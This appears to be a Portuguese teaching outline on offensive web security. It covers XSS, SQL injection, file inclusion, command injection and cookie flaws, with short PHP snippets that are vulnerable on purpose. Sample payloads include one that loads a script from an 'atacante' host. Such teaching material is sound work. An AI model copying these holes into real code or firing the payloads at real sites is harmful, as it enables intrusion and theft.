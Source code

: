 # Segurança ofensiva

### Introdução
- Grayhats x Whitehats
- Script Kiddies
- Mercado de segurança da informação

### [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
- Refletido:
```php
# http://localhost/xss.php?mensagem=<script>alert('XSS');</script>
# http://localhost/xss.php?mensagem=<marquee><h1>XSS</h1></marquee>
# http://localhost/xss.php?mensagem=<script src=http://atacante.segphp4linux.com.br/domal.js></script>

echo isset($_GET['mensagem']) ? $_GET['mensagem'] : '';
```

- Residente:
```php
# http://localhost/xss_residente.php?mensagem=<script>alert('XSS');</script>

session_start();

if (isset($_GET['variavel'])) {
    $_SESSION['variavel'] = $_GET['variavel'];
}

echo isset($_SESSION['variavel']) ? $_GET['variavel'] : "" ;
```

- XSHM - Cross-Site History Manipulation
```php
/*
http://vitima.segphp4linux/xss_xshm.php?mensagem=<script>alert(history.length);</script>
*/

echo isset($_GET['mensagem']) ? $_GET['mensagem'] : '';
```

- [CSRF - Cross-Site Request Forgery](https://pt.wikipedia.org/wiki/Cross-site_request_forgery)

- [Click Jacking](http://sectheory.com/clickjacking.htm) - [exemplo](http://koto.github.io/blog-kotowicz-net-examples/cursorjacking/)

### [SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection2/)
- [Comum](scripts/sqli/sqlinjection.php)
```php
# login=' or '1'='1
# senha=' or '1'='1

if ($_POST) {
    $query = "SELECT * FROM usuarios WHERE user='$user' AND pass='$pass' ";

    echo $query;
}
```
- Union inband
- Batched
- Blind
- Error Based

### [LDAP Injection](https://www.owasp.org/index.php/LDAP_Injection_Prevention_Cheat_Sheet)

### [Insecure Cookie Handling](http://kb.enprobe.io/vulnerabilities/insecure-cookies.html)
-- Exemplo
```php
if ($_GET['login'] == 'naousehardcode' && $_GET['senha'] == 'naousehardcode') {
    setcookie('autenticado', 1);
}

if (!$_COOKIE['autenticado'] == 1) {
    die('Usuario nao autenticado!');
}
```

- [RFI/LFI - Remote/Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
-- Exemplo
```php
require($_GET['modulo']);
```

- [Command Injection](https://www.owasp.org/index.php/Command_Injection)
-- Exemplo
```php
system($_GET['comando']);
```

- [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)

- [Web Crawlers](https://pt.wikipedia.org/wiki/Rastreador_web)
-- Exemplo
```php
# Exemplo: https://stackoverflow.com/a/2313146

function crawl_page($url, $depth = 5) {
    if($depth > 0) {
        $html = file_get_contents($url);

        preg_match_all('~<a.*?href="(.*?)".*?>~', $html, $matches);

        foreach($matches[1] as $newurl) {
            crawl_page($newurl, $depth - 1);
        }

        file_put_contents('results.txt', $newurl."\n\n".$html."\n\n", FILE_APPEND);
    }
}

crawl_page('http://www.domain.com/index.php', 5);
```

- [Session fixation/hijacking](https://www.owasp.org/index.php/Session_fixation)

### [Brute force](https://pt.wikipedia.org/wiki/Ataque_de_for%C3%A7a_bruta)

### [Man In The Middle](https://www.owasp.org/index.php/Man-in-the-middle_attack)

### [DDOS](https://pt.wikipedia.org/wiki/Ataque_de_nega%C3%A7%C3%A3o_de_servi%C3%A7o)

### Algumas Ferramentas
- [Kali Linux](https://www.kali.org/)
- [Metasploint](https://www.metasploit.com/)
- [nmap](https://nmap.org/)
- [tcpdump](https://www.tcpdump.org/tcpdump_man.html)
- [Wireshark](https://www.wireshark.org/)
- [Ettercap](http://www.ettercap-project.org/ettercap/)
- [SQLMap](http://sqlmap.org/)
- [PHP Crawler](http://phpcrawl.cuab.de/)
- [John the Ripper](http://www.openwall.com/john/)
